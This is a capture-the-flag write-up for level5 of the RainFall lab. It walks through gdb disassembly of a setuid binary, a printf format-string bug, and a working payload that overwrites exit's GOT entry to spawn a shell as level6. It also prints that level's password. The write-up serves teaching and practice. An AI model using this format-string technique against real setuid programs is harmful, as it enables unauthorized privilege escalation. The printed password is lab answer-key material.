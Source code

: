 # level5

- We login as user level5:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
```

```
level5@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
level5@RainFall:~$ gdb level5
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:     push   %ebp
   0x08048505 <+1>:     mov    %esp,%ebp
   0x08048507 <+3>:     and    $0xfffffff0,%esp
   0x0804850a <+6>:     call   0x80484c2 <n>
   0x0804850f <+11>:    leave
   0x08048510 <+12>:    ret
End of assembler dump.
```

```
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   %ebp
   0x080484c3 <+1>:     mov    %esp,%ebp
   0x080484c5 <+3>:     sub    $0x218,%esp
   0x080484cb <+9>:     mov    0x8049848,%eax
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
```


- Let's identify the calls and jump by execution order:
```
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
```
>`0x8049848 <stdin@@GLIBC_2.0>: 0xb7fd1ac0`
>buffer size is 0x200 bytes
>buffer starts at `-0x208(%ebp)`
>Prompt the user for up to 512 bytes.

```
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
```
>Call `<printf@plt>` with our buffer.


```
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
```
> Call `exit()`


- Thanks to `<printf@plt>`, we can redirect the program's execution flow by modifying the behavior of `call 0x80483d0 <exit@plt>`.
```
(gdb) x 0x80483d0
   0x80483d0 <exit@plt>:        jmp    *0x8049838
(gdb) x/x 0x8049838
0x8049838 <exit@got.plt>:       0x080483d6
(gdb) x/2i 0x080483d6
   0x80483d6 <exit@plt+6>:      push   $0x28
   0x80483db <exit@plt+11>:     jmp    0x8048370
```


- When the program executes `call 0x80483d0 <exit@plt>`, it actually `jmp` to the instruction located at the address contained in `0x8049838`, which is at `0x80483d6`, where it will execute `push $0x28`.
By changing the value stored at address `0x8049838`, you can redirect the program's execution flow. You could, therefore, make it execute shellcode instead, but if you `(gdb) info functions`:
```
All defined functions:

Non-debugging symbols:
...
0x080484a4  o
0x080484c2  n
0x08048504  main
...
```

```
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x18,%esp
   0x080484aa <+6>:     movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    movl   $0x1,(%esp)
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
```
>`0x80485f0:       "/bin/sh"`


- Look! A function that is not called anywhere but calls `system("/bin/sh")`! By putting the value `0804 84a4` into `0x8049838`, the program's execution should be redirected to this function.
>Low order bytes = 84a4 (33 956 in decimal)
>High order bytes = 0804 (2052 in decimal)
>`\x40\x98\04\x08\x38\x98\x04\x08 %VALUE1x %4$hn %VALUE2x %5$hn`
>`VALUE1 (0x8049840)` ==> 2052 - 8 bytes for the addresses - 2 bytes for the spaces = 2042
>`VALUE2 (0x8049838)` ==> 33 956 - 2052 - 2 bytes for the spaces = 31 902

- So:
```
level5@RainFall:~$ (echo -ne '\x40\x98\04\x08\x38\x98\x04\x08 %2042x %4$hn %31902x %5$hn'; cat) | ./level5
...
whoami
level6

cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
